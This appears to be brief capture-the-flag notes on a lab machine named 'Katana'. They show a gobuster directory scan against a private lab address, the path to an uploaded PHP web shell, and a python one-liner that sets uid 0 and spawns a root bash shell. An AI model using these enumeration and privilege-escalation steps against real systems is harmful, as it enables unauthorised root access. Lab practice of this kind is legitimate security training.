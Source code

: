 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Katana
# 2/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------










gobuster dir -u http://192.168.75.83:8088 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x html 
http://192.168.75.83:8088/upload.html
http://192.168.75.83:8715/katana_shell.php


/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
